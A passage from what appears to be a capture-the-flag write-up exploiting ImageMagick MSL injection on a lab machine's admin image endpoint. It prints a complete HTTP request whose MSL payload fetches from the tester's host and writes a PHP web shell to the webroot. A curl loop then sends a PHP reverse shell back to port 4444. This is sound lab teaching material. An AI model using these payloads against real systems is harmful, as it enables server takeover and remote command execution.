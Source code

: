 ```http
    'path': 'vid:msl:/tmp/php*',
    'effect': 'charcoal'
}
```

And here's the second request:

```
POST /api/v2/admin/image/modify HTTP/1.1
Host: 10.129.19.213
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: multipart/form-data; boundary=--ABC
Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vMTAuMTI5LjE5LjIxMy9hcGkvdjIvYXV0aC9sb2dpbiIsImlhdCI6MTY4ODM5Mzc1NCwiZXhwIjoxNjg4NDE1MzU0LCJuYmYiOjE2ODgzOTM3NTQsImp0aSI6IjJFU1NGWHA5Sno4VVh1Y1EiLCJzdWIiOiIyIiwicHJ2IjoiMjNiZDVjODk0OWY2MDBhZGIzOWU3MDFjNDAwODcyZGI3YTU5NzZmNyJ9.TXkEvefZecbOrVTbd20__gfPgBcKwvyFO-bEcq5HCo4

Content-Length: 305
Accept: */*



--ABC
Content-Disposition: form-data; name="swarm"; filename="§swarm.msl§"
Content-Type: application/octet-stream
 
<?xml version="1.0" encoding="UTF-8"?>
<image>
 <read filename="http://10.10.14.64/positive.png" />
 <write filename="info:/var/www/html/intentions/public/cmd.php" />
</image>
--ABC--
```

Lastly, we can have a `bash` loop running to give us a reverse shell using a basic PHP reverse shell from [revshells.com](https://www.revshells.com/).

{% code overflow="wrap" %}
```bash
$ while true; do curl -G --data-urlencode 'a=$sock=fsockopen("10.10.14.64",4444);$proc=proc_open("bash", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);' http://10.129.19.213/cmd.php 2> /dev/null; done
```
{% endcode %}

Then, we just need to start both the payloads within Burpsuite Intruder with NULL requests.&#x20;

<figure><img src="../../.gitbook/assets/image (2659).png" alt=""><figcaption></figcaption></figure>
